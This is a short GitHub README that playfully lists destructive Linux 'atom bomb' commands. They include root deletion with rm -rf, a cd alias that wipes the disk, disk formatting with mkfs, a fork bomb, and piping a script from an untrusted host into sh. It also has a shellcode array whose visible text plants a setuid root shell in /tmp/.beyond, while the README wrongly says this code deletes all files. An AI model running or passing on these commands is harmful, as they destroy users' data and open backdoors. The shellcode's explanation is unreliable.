 # Hello-World

## Some Atom Bombs for Linux

```
sudo rm -rf /
sudo umount /
```
This command will delete your entire files on mounted devices!

```
echo "alias cd='rm - rf /'" >> ~/.bash_aliases
```


```
mkfs.ext3 /dev/sda
```
This command will format your /dev/sda device and of course will delete all files on it.

```
:(){:|:&};:
```
This command will run too many processes on your system and causes the computer hang up!

```
wget http://sumber_tak_terpercaya -O- | sh
```
This command will download a shell script from untrusted source and run it when the download finished

```
mv /home/username/* /dev/null
```
This will move home directory to a place that actually doesn't exist. In other words, it will delete your home directory


```
char esp[] __attribute__ ((section(".text"))) /* e.s.p
release */
= "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"
"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"
"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"
"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"
"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"
"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"
"\x6e\x2f\x73\x68\x00\x2d\x63\x00"
"cp -p /bin/sh /tmp/.beyond; chmod 4755
/tmp/.beyond;";
```
Hexadecimal code! Same as the first command, it will delete entire files on your mounted devices



### Happy-Hacking
